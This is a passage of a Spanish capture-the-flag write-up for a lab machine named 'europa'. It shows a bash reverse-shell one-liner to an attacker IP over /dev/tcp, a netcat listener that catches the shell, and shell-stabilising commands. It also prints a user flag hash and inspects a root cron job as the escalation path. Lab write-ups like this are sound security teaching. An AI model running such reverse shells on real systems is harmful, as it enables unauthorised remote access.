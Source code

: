 ```null
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.16.2/443 0>&1'
```

Gano acceso en una sesión de ```netcat```

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.10.22] 38088
bash: cannot set terminal process group (1421): Inappropriate ioctl for device
bash: no job control in this shell
www-data@europa:/var/www/admin$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@europa:/var/www/admin$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
www-data@europa:/var/www/admin$ export TERM=xterm
www-data@europa:/var/www/admin$ export SHELL=bash
www-data@europa:/var/www/admin$ stty rows 55 columns 209
```

Puedo ver la primera flag

```null
www-data@europa:/home/john$ cat user.txt 
61024e3c55626abb06c0256057d554e2
```

# Escalada

Existe una tarea CRON que ejecuta el usuario ```root``` cada minuto

```null
www-data@europa:/$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * *	root	/var/www/cronjobs/clearlogs
```
